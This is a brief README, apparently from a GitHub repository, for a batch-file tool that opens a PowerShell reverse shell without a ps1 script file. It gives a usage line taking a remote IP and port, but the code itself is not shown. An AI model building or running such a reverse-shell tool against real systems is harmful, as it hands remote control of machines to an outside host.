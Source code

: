 # powershell-revershell

A bat file to execute a reverse shell using powershell without a ps1 file.

### Usage

revershell.bat \[RemoteIP] \[RemotePort]
